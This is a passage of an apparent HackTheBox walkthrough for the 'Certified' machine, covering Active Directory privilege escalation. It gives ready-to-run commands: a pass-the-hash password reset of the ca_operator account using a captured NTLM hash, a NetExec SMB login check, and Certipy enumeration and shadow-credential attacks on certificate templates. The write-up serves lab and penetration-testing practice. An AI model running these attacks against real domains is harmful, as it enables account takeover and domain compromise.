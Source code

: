 **Root -- Privilege Escalation**

1.  **PASS THE HASH. NTLM-HASH**. Change password of **CA_Operator
    account**

> **[INFO: 123456789 will be the NEW PASSWORD]{.mark}**
>
> [**INFO: Paste the NTLM HASH** from **FOOTHOLD STEP 8**]{.mark}
>
> **RUN:** **pth-net rpc password \"ca_operator\" \"123456789\" -U
> \"certified.htb\"/\"management_svc\"%\"a091c1832bcdd4677c28b5a6a1295584\":\"a091c1832bcdd4677c28b5a6a1295584\"
> -S \"DC01.certified.htb\"**

2.  Check if MOD is successful

**RUN:** **nxc smb 10.10.11.41 -u ca_operator -p 123456789**

**INFO:**

-nxc=NetExec attempts SMB (ServerMessageBlock) authentication

-type in behind -p, the NEW PASSWORD

3.  Find **vunerable certificate templates** within Active Directory

> **RUN:** **certipy-ad find -u ca_operator -p \'123456789\' -dc-ip
> 10.10.11.41 -text -stdout -vulnerable**
>
> All steps explained in this article:
>
> https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-andrequest-
>
> methods-and-more-7237d88061f7

4.  Get **HASH of CA_OPERATOR** : 89551acff8895768e489bb3054af94fd and
    ca_operator.ccache

> [**INFO: Paste the NTLM HASH** from **BOTTOM OF SCREENSHOT in FOOTHOLD
> STEP 8**]{.mark}
>
> **RUN: certipy-ad shadow auto -u management_svc@certified.htb -hashes
> a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -ns
> 10.10.11.41**
> ![](images/media/image29.png){width="6.291666666666667in"
> height="1.7243055555555555in"}
>
> INFO: If not working, use NTP to synchronize your machine\'s clock
>
> **RUN:** sudo apt-get install ntp (ONLY needed if app not installed)
>
> **RUN:** **sudo ntpdate 10.10.11.41** (ip is from DC (Machines VPN
> IP))
>
> **RUN:** **sudo systemctl restart ntp**
